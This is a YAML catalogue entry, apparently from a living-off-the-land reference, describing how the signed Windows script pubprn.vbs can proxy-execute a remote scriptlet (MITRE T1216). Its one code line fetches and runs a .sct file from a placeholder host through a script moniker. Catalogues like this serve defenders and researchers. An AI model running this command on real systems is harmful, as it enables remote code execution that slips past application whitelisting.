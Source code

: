 ```yaml
---
name: Pubprn.vbs
description: 
functions:
  execute:
    - description: Set the 2nd variable with a Script COM moniker to perform Windows Script Host (WSH) Injection
      code: pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
resources:
    - resource: https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
    - resource: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
    - resource: https://github.com/enigma0x3/windows-operating-system-archaeology
fullpath:
    - path: C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
    - path: C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
detection:
  - IOC: 
acknowledgement:
  - Person: Matt Nelson
    Handle: '@enigma0x3'
---
```

